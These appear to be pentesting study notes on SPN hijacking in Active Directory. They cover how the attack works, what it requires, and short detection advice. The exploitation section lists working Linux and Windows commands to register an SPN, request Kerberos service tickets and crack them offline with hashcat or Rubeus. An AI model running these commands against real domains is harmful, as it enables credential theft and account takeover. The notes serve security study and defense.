 - Attackers register a [[SPN (Service Principal Name)|SPN]] to a compromised account, hijacking [[Kerberos]] service identity.
- Tricks DC into issuing Kerberos tickets to attacker account.
- Enables attacks such as:
	- [[Kerberoasting]]
	- [[Silver Ticket Attack]]
	- Service impersonation
# How It Works

- Kerberos uses SPNs to identify which account is responsible for a service.
- If attackers can:
	- modify an account (own/compromised).
	- register an SPN like `HTTP/web.corp.local`
- Then, Kerberos associates that SPN with the account.
# Exploitation Requirements

- Write access to any account's `servicePrincipalName` attribute:
	- can be attacker account.
	- can be compromised account with `WriteProperty` or `GenericAll` rights on another account.
# Exploitation 

Linux:

- Register SPN to the user:
	- `ldapmodify -H ldap://dc.corp.local -x -D 'CORP\attacker' -w 'Password1' -f <(echo -e "dn: CN=attacker,CN=Users,DC=corp,DC=local\nchangetype: modify\nadd: servicePrincipalName\nservicePrincipalName: HTTP/web.corp.local")`
- Request TGS (Kerberoasting):
	- `GetUserSPNs.py corp.local/attacker:Password1 -request`
- Crack TGS hash offline:
	- `hashcat -m 13100 -a 0 roasted_hashes.txt rockyou.txt`

Windows:

- Add SPN to account:
	- `setspn -a HTTP/web.corp.local CORP\attacker`
- Kerberoast with Rubeus:
	- `Rubeus kerberoast /user:attacker /domain:corp.local /rc4:<hash> /nowrap`
# Detection/Defense

- Monitor for changes to `servicePrincipalName` (Event ID 5136).
- Alert on new SPNs added to user accounts.
- Use BloodHound to find users with `writeProperty` access on accounts with SPNs.